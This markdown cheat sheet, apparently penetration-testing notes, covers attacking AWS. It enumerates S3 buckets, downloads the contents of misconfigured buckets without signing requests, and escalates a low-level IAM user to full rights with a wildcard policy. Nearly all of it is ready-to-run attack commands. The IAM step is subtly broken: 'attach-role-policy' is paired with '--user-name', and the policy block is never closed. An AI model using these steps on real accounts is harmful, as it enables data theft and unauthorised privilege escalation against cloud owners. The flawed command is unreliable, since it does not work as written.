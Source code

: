 ## Cloud Computing

### S3 Bucket Enumeration
1. lazys3 (github)
   - `ruby lazys3.rb <COMPANY/KEYWORD>`
     - List all buckets and http status code
2. s3scanner (github)
   - Install
     - `pip3 install s3scanner`
   - Enumerate buckets list:
     - `s3scanner scan -f names.txt`
3. Browser
   - Go to `<bucket-name>.s3.amazonaws.com` XML file of the bucket will be displayed

### Exploit misconfigured S3 buckets
1. AWS CLI
   - Install: `apt install awscli`
   - List contents: `aws s3 ls s3://<bucket-name> --no-sign-request`
   - Download contents: `aws s3 cp s3://<bucket-name> <local-path> --recursive --no-sign-request`
2. s3scanner
   - Install
     - `pip3 install s3scanner`
   - Check if bucket exists and list permissions: 
     - `s3scanner scan -b <bucket-name>`
   - Dump bucket contents: 
     - `s3scanner dump -b <bucket-name> -d <path>`

### Exploit misconfigured IAM roles
- Configure AWS CLI with access key and secret key of low level user
  - `aws configure`
- create file policy.json
  ```
  {
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Action": "*",
            "Resource": "*"
        }
    ]
  }
- `aws iam create-policy --policy-name <policy-name> --policy-document file://policy.json`
- `aws iam attach-role-policy --user-name <user-name> --policy-arn <policy-arn-from-previous-command>`
- `aws iam list-users` to verify by listing users